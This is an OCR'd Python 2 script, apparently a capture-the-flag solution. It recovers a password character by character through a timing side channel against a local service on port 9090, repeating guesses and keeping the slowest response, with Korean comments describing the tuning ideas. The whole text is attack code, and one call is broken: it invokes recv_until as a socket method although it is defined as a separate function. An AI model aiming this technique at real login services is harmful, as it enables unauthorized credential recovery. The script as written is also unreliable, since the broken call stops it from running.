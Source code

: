 ``` py
import time
from socket import *

IP = "localhost"
PORT = 9090

FoundedPasswd = ''
mytime = 0
imreal = 0
sumtime = 0

s = socket()
s.connect((IP, PORT))
s.send("1\n")
s.recv(100)
s.close()

def recv_until(s, string):
    result = ''
    while string not in result:
        result += s.recv(1)
    return result

for y in range(20):
        for x in range(0x20, 0x80):
                sumtime = 0
                '''해결 아이디어1 - 돌발 놈을 막아내자!!'''
                for z in range(0,7):     
                        s = socket()
                        s.connect((IP,PORT))
                        testStr = FoundedPasswd + chr(x)
                        stime = time.time()
                        s.send(testStr+"\n")          
                        data = s.recv_until(s,"password ")
                        taketime = time.time() - stime

                        if data.find("flag") >= 0:
                                FoundedPasswd += chr(x)
                                print "Success!!", FoundedPasswd
                                exit()

                        '''해결 아이디어3 - 불필요한 시간 소모 방지!!'''
                        if taketime <= 0.3*(y+1):     
                                break

                        sumtime += taketime
                        s.close()

                print chr(x), sumtime 

                if sumtime >= mytime:
                        mytime = sumtime
                        imreal = x

                '''해결 아이디어2 - 패스워드가 확실해!! 싶으면 여기까지만! 
                   (2.04≒0.29*7)'''
                if sumtime >= (y+2)*2.04:     
                        break

        FoundedPasswd += chr(imreal)
        print FoundedPasswd
```
